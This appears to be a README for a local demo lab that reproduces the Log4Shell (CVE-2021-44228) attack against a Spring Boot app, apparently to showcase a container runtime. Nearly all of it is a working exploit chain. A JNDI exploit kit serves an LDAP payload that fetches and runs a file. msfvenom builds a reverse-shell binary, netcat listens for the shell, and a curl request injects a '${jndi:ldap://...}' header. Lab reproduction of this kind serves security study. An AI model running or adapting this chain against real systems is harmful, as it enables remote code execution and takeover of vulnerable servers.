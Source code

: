 # log4j km-demo

[https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html](https://www.reposhub.com/java/web-frameworks/twseptian-Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.html)

### vagrant

```bash
cd /home/smijar/dev/vagrant/fedora34/
vagrant ssh
```

**vagrant box:**

```bash
ensure that java and mvn are installed prior to this
$ vagrant ssh
```

**clone:**

```bash
# steps to checkout
mkdir /vagrant
cd /vagrant
git clone https://github.com/kontainapp/km-demo.git
cd km-demo

git submodule update --init --recursive
git fetch origin

git checkout -t origin/sm/demo_log4jshell

# 1-liner
# git clone https://github.com/kontainapp/km-demo.git && cd km-demo && git submodule update --init --recursive && git fetch origin && git checkout -t origin/sm/demo_log4jshell
```

### **Build**

```bash
# build
cd /vagrant/km-demo/log4j/
make demo
```

### **Terminal 1 (Malicious LDAP server):**

```bash
# T1 - Malicious LDAP Server triggers "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
cd /vagrant/km-demo/log4j/JNDI-Exploit-Kit/

# run with docker
**docker run --network=host --rm log4jshell/jndi_exploit_kit**

OR

# java jar based run - but could be jdk version issue
**java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"**
...
>> wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
...
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
**rmi://10.100.101.100:1099/7p5qra
ldap://10.100.101.100:1389/7p5qra

OR RUN with:**
$ ./t1LdapJNDIExploit.sh
```

### **Terminal 2 (Victim)**:

the vulnerable log4j application

```bash
# T2 - Spring Boot Application Victim that contains a logging line that logs the header with the malicious LDAP string
# runs "java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar" in docker for ease of use
cd /vagrant/km-demo/log4j/
docker run --rm --network=host vulnerable-app
...

OR

# map /tmp to docker else it cant start as it gives error saying can't writeto /tmp
docker run --rm --runtime=krun --network=host -v /tmp:/tmp log4jshell/vulnerable-app-kontain

OR

OR RUN with:
$ ./t2-vulnerable-app.sh
```

### Terminal 3

We use metasploit framework to create the dial back code and HTTP host on port 8081. The command line to create it is:

dial back (`rev.elf`) server (Terminal 3)

```bash

# T3 - Malware server that contains exploits like creating a reverse shell to hackers computer
$ cd /vagrant/km-demo/log4j/

$ cat msfvenom.sh
docker run --name=msfvenom log4jshell/msfvenom
docker cp msfvenom:/tmp/rev.elf /tmp/rev.elf
cd /tmp
python3 -m http.server 8082

$ sh ./msfvenom.sh

OR (without docker)

cd dev/kontain/km-demo/log4j/
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
cd /tmp/
python3 -m http.server 8082

OR

$ ./t3msfvenom.sh
```

### Terminal 4

ncat receiving dialback

```bash
# T4 - Reverse Shell Listening Server
nc -l 4444
nc -lvnp 4444

OR

./t4nc.sh
```

### Terminal 5

Attacking curl command

Again there is no special code, we just use curl with the LDAP end point from above encoded:

```bash
# T5 - Attack curl command with malicious LDAP string in header for victim to log
curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/xqinla}'

# to see
$ cat t5attackcurl.sh
```
